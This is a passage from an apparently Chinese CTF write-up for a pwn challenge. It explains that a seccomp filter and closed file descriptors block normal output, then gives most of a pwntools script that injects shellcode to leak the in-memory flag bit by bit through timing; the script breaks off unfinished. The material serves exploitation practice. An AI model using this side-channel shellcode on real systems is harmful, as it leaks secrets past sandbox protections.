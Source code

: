 第一个似乎会使我们gdb调试崩溃
第三个限制我们只能使用read, write, _exit(but not exit_group), sigreturn.

但由于程序一开始就把flag读进程序了,因此我们只要想办法把他leak出来就行

可惜程序关闭了0~1024的fd,因此考虑写延时shellcode,1bit 1bit来leak.

```

#coding=utf8
from pwn import *
#context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def bf(nbyte,nbit):
	cn = process('./bigpf_y')

	#z('b*0x56555ECB\nc')
	cn.recvuntil('NAME PROGRAM\n')
	cn.sendline('asdfasdfasdf')
	cn.recvuntil('LOAD PROGRAM\n')
	sc = '''
		/*edi -> flag*/
		add edi,%d /* n byte */
		xor edx,edx
		mov dl,byte ptr [edi]
		shr dl,%d /* n bit */
		and dl,1

		test edx,edx
		jz loop
		xor ebx,ebx
		mov eax,1
		int 0x80 /* exit */
	loop:
		jmp loop
	''' %(nbyte,nbit)
	sc = asm(sc)

	cn.send(p32(len(sc)))
	cn.send(sc)
	sleep(0.01)
	try:
		cn.send('test')
		cn.recv(timeout=0.01)
	except:
		cn.close()
		return 1

	cn.close()
	return 0

out=''
for i in range(0x100): # byte
	ch=''
	for j in range(8):
		ch = str(bf(i,j))+ch
		success(ch)
	intt=int(ch,2)
	if(intt == 0):
```